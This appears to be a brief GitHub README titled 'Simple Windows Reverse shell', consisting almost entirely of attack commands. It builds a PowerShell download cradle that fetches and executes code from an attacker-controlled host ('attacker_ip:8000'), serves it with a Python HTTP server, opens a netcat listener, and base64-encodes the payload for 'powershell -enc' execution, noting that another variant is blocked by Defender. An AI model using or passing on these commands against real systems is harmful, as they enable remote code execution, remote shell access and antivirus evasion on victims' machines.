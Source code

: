 # Simple Windows Reverse shell 
If this not working try the another one that is blocked by defender...

```language
nano touch.ps1
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

python3 -m http.server 8000

rlwrap nc -lvnp 9001

cat cradle | iconv -t utf-16le | base64 -w0; echo

powershell -enc <encoded_code>
```
